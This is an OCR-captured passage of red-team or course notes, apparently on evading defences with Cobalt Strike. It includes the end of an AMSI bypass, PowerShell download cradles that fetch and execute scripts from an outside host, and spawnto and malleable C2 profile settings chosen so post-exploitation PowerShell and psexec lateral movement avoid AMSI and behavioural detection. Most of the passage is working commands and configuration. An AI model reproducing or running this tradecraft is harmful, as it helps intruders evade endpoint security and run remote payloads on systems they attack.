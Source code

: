 ```
    }
}
"@

Add-Type -TypeDefinition $HWBP
[HWBP.Amsi]::Bypass()
```

just save this as a new file on the teamserver, and run before any commands first to bypass
```
example:
iex (new-object net.webclient).downloadstring("http://nickelviper.com/bypass"); iex (new-object net.webclient).downloadstring("http://nickelviper.com/a")
```

**Behavioural Detections**

The process used for post-ex commands and psexec can be changed on the fly in the CS GUI.  To change the post-ex process, use the spawnto command.  x86 and x64 must be specified individually and environment variables can also be used.
```
spawnto x64 %windir%\sysnative\dllhost.exe
spawnto x86 %windir%\syswow64\dllhost.exe
```

now powerpick and powershell will run on the file server without being caught by AMSI or behavioural detection

can also make these changes in the malleable C2
```
vim c2-profiles/normal/webbug.profile
```

add this
```
post-ex {
        set amsi_disable "true";

        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```

When moving laterally with psexec, Beacon will attempt to use the spawnto setting from your malleable C2 profile.  However, it cannot use environment variables (such as %windir%), so will fall back to rundll32 in those cases.  You can override this at runtime with the ak-settings command to specify an absolute path instead.
```
ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe
```

### Parent/Child Relationships

from our initial access payload it will seem like powershell is a child of word
